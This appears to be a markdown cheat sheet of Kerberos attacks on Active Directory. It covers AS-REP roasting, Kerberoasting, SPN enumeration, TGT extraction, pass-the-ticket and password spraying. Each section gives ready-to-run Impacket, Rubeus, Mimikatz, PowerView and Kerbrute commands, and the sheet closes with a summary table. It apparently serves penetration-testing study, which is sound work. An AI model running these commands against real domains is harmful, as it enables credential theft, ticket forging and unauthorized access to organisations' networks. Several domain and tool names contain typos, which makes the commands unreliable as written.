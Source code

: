 ### 1. AS-REP Roasting (No Pre-auth)

Target accounts with "**Do not require Kerberos preauthentication**" enabled

#### Tools : ``GetNPUsers.py``, ``Rubeus``

```bash
impacket-GetNPUsers infosec.local/ -userfile users.txt -dc-ip <IP> -no-pass
```

```bash
Rubeus.exe asreproast
```

---

### 2. Kerberoasting 

Request TGS tickets for SPNs to crack offline

#### Tools : ``GetUserSPNs.py``, ``Rubeus``

```bash
impacket-GetUserSPNs infosec.local/<username>:<password> -dc-ip <IP> -request
```

```bash
Rubeus.exe kerberoast /user:targetuser /domain:infosecwarrior.local /dc:<IP>
```

---

### 3. SPN Enumeration

List Service Pricipal Names to identify service accounts

#### Tools: ``setspn``, ``PowerView``

```bash
setspn -T infosecwarrior.local -Q */*
```

```powershell
Import-Module .\PowerView.ps1
```

```powershell
Get-DomainUser -SPN *
```

---

### 4. TGT Extraction

Extract Ticket Granting Tickets (TGT) for later reuse

#### Tools : ``Rubeus``

```bash
Rubeus.exe tgtdeleg
```

---

### 5. Pass-the-Ticket (PTT)

Inject Kerberos tickets into current session

#### Tools : ``Runeus``, ``Mimikatz``

```bash
Rubeus.exe ptt /ticket:<base64_ticket>
```

```bash
mimikatz # kerberos::ptt ticket.kirbi
```

---

### 6. Password Spraying via Kerberos

Enumerate users and spray passwords over Kerberos

#### Tool: ``Kerbrute``

```bash
kerbrute userenum --dc <IP> -d infosecwarriour.local users.txt
```

```bash
kerbrute passwordspray -d imfosecwarrior.local --dc <IP> users.txt password123
```

---

### Summary Table

|**Technique**|**Purpose**|**Tools**|
|---------|-------|-----|
|ASREP Roasting | Crack user hash w/o pre-auth | GetNPUsers, Rubeus|
| Kerberoasting | Crack SPN account hash | GetUserSPNs, Rubeus|
| SPN Enumeration | Identify service accounts | setspn, PowerView|
| TGT Extraction | Steal valid kerberos TGT | Rubeus |
| Pass-The-Ticket | Authenticat using ticket | Rubeus, MimiKatz|
| Password Spray | Brute-force credentials over KDC | kerbrute | 